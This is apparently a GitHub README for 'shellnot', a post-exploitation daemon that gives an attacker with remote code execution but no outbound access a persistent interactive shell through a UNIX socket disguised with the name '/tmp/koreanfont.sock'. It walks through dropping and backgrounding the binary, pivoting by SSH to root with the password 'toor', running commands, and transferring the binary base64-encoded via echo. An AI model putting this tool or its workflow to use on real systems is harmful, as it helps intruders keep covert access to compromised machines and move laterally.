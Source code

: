 # shellnot

## What is this, and when do I use it?

`shellnot` is a UNIX socket-based daemon for situations where you have **RCE** but no egress - you can execute code, but you can’t exfiltrate or pop a reverse shell.

It gives you a **persistent, interactive shell** by tunneling commands through a local client to a background daemon via `/tmp` sockets. You’re not getting a bind shell or reverse shell; you’re getting a best-effort pseudo-shell that lives on the box, keeps context, and answers only when you ask.

Use it when:

- You have RCE but no shell.
- You can write to disk and run local binaries.
- Outbound connections are blocked.
- You want stateful interaction (e.g., cd, ssh, history).
- You're done injecting chains of single-use commands.

This is built for low-priv, egress-restricted, post-exploitation environments where most payloads are fire-and-forget. Drop the daemon once, then talk to it via local execution. That’s it.

## How it works

There are two parts:

1. **Daemon (`--daemon`)**  
   This runs locally and manages multiple persistent pseudo-terminal (PTY) shell sessions, each tied to a session ID. It listens over a UNIX socket (`/tmp/koreanfont.sock` by default).

2. **Client**  
   You trigger this over your RCE context. It writes to the socket and optionally reads back:
   - `--input "<command>"` → sends a command to a session
   - `--output` → reads the output buffer from that session

The client can be executed repeatedly from your RCE to simulate an interactive shell, one command at a time. The daemon keeps session state, history, and PTY context.

---

## Example usage

Once the binary is on the box, start the daemon:
```sh
./shellnot --daemon & 
```
*Or use any means to background the process like  cron, etc...*

Continuing the RCE context, send a command to session 1:

```sh
./shellnot --session 1 --input "ssh root@1.domain.com"
```

Fetch the output from session 1:

```sh
./shellnot --session 1 --output
```

Full flow:

```sh
./shellnot --daemon &
./shellnot --session 1 --input "ssh root@2.domain.com"
./shellnot --session 1 --output
ssh root@2.domain.com

root@2.domain.com”s password:
./shellnot --session 1 --input "toor"
./shellnot --session 1 --output

Last login: Sat May 24 16:45:40 2025 from 10.0.0.2
[root@localhost ~]$ ⏎ 
./shellnot --session 1 --input "id"
./shellnot --session 1 --output
id
uid=1001(root) gid=1001(root) groups=1001(root),970(docker),998(wheel)
[root@localhost ~]$
[root@localhost ~]$ ⏎ 
./shellnot --session 1 --input "exit"
./shellnot --session 1 --output
exit
logout
Connection to 2.domain.com closed.
$ ⏎
```
```
ps aux | grep shellnot
mcrn        5770  0.0  0.0   2772   956 pts/0    S    22:33   0:00 ./shellnot --daemon
```

# Caveats
- Means to background the process, or at least two RCE instances.
- Might require to compile the binary on the box itself.
- Only works on UNIX-like systems with forkpty() support.

---

*Ignore the warning, made it to be as small as possible for base64 transfer over `echo` with RCE.*
```sh
gcc shellnot.c -o shellnot
```
